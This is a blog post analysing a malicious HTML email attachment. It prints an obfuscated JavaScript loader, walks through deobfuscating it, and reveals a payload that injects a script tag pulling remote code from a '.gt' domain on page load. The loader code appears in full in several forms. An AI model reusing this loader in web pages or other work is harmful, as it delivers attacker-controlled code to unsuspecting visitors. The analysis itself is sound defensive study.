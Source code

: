 ```yaml
---
setup: |
  import Layout from '../../layouts/BlogPost.astro'
title: Deobfuscating a simple html malware loader
subtitle: 
publishDate: 2023-03-14
description: 
tags: ['obfuscation', 'web', 'malware']
permalink: https://halb.it/posts/html-loader-deobfuscation/
---
```




I've got my hands on a malicious spam email, that contained an html attachment with the following script

```js
function a0uqiiqu(){var tvtetaepmuol=['124DmjXwe','src','https://dos.com','512295URcyIF','750664RVFSzX',
'36WPNViT','34947uflpIw','59941oAwubn','createElement','1934810DDyBir','47565AALipC','1944VdGjMp',
'.gt/udu/udu.js?','script','12gOlcLD','200pNfvmM','3438gqVBAW'];a0uqiiqu=function(){return tvtetaepmuol;};
return a0uqiiqu();}var a0tauiqnasu=a0ouetecdcnseettrulcs;(function(uegtaapfalc,ipartuuqsrnae){
var umuqirae=a0ouetecdcnseettrulcs,eedxpatuti=uegtaapfalc();while(!![]){try{var lucesdeteds=-parseInt(
umuqirae(0xe9))/0x1*(parseInt(umuqirae(0xe8))/0x2)+-parseInt(umuqirae(0xed))/0x3+parseInt(umuqirae(0xea)
)/0x4*(-parseInt(umuqirae(0xe3))/0x5)+parseInt(umuqirae(0xe7))/0x6*(-parseInt(umuqirae(0xf1))/0x7)+-
parseInt(umuqirae(0xee))/0x8*(-parseInt(umuqirae(0xef))/0x9)+parseInt(umuqirae(0xf3))/0xa+parseInt(
umuqirae(0xf0))/0xb*(parseInt(umuqirae(0xe4))/0xc);if(lucesdeteds===ipartuuqsrnae)break;else eedxpatuti[
'push'](eedxpatuti['shift']());}catch(ieitmuosrseubp){eedxpatuti['push'](eedxpatuti['shift']());}}}(
a0uqiiqu,0x3eb7d));var incidunt=document[a0tauiqnasu(0xf2)](a0tauiqnasu(0xe6));function 
a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs){var uegtaapfalc=a0uqiiqu();return a0ouetecdcnseettrulcs=
function(ipartuuqsrnae,eedxpatuti){ipartuuqsrnae=ipartuuqsrnae-0xe3;var lucesdeteds=uegtaapfalc[
ipartuuqsrnae];return lucesdeteds;},a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs);}incidunt[a0tauiqnasu(
0xeb)]=a0tauiqnasu(0xec)+a0tauiqnasu(0xe5)+'83642',document['head']['appendChild'](incidunt);

```

This is clearly a simple loader, that downloads and runs an external script from the internet. The obfuscation is not sophisticated since it's only there to avoid automated analysis.
For a human, this is actually pretty easy to understand despite the scary look

After formatting the code and renaming some variables, we are left with this

```js
function getStrArray() {
  return ["124DmjXwe", "src", "https://dos.com", "512295URcyIF", "750664RVFSzX", "36WPNViT", "34947uflpIw", "59941oAwubn", "createElement", "1934810DDyBir", "47565AALipC", "1944VdGjMp", ".gt/udu/udu.js?", "script", "12gOlcLD", "200pNfvmM", "3438gqVBAW"];
}
function getStrArrayElement(param1, unused_param2) {
    var strArray = getStrArray();
    param1 = param1 - 227;
    return strArray[param1];
}



(function scramble_str_array(getStrArray, hardcodedInteger) {
  var umuqirae = getStrArrayElement, eedxpatuti = getStrArray();
  while (true) {
    try {
      var lucesdeteds = -parseInt(umuqirae(233)) / 1 * (parseInt(umuqirae(232)) / 2) + -parseInt(umuqirae(237)) / 3 + parseInt(umuqirae(234)) / 4 * (-parseInt(umuqirae(227)) / 5) + parseInt(umuqirae(231)) / 6 * (-parseInt(umuqirae(241)) / 7) + -parseInt(umuqirae(238)) / 8 * (-parseInt(umuqirae(239)) / 9) + parseInt(umuqirae(243)) / 10 + parseInt(umuqirae(240)) / 11 * (parseInt(umuqirae(228)) / 12);
      if (lucesdeteds === hardcodedInteger) break; else eedxpatuti.push(eedxpatuti.shift());
    } catch (ieitmuosrseubp) {
      eedxpatuti.push(eedxpatuti.shift());
    }
  }
}(getStrArray, 256893));



var incidunt = document[getStrArrayElement(242)](getStrArrayElement(230));
incidunt[getStrArrayElement(235)] = getStrArrayElement(236) + getStrArrayElement(229) + "83642", document.head.appendChild(incidunt);
```

Lets break it down:

- The first block defines an array of strings

- In the second block a mysterious algorithm inside an infinite loop scrambles the content of the array

- In the final block the actual payload is defined using strings from the scrambled array


The scrambler algorithm looks pretty complicated, fortunately we don't have to understand it. Instead, we are going to use a very old trick and replace the code payload with a string

```js
var deobfuscated_payload_str = `
  var incidunt = document[${getStrArrayElement(242)}](${getStrArrayElement(230)});

  incidunt[${getStrArrayElement(235)}] = ${getStrArrayElement(236)} + ${getStrArrayElement(229)} + "83642",
    document.head.appendChild(incidunt);
`

console.log(deobfuscated_payload_str)

```

Now when we run the script it will very kindly print its payload, instead of executing it.

Here it is:

```js
var incidunt = document[createElement](script);

incidunt[src] = https://dos.com + .gt/udu/udu.js? + "83642",
  document.head.appendChild(incidunt);
```
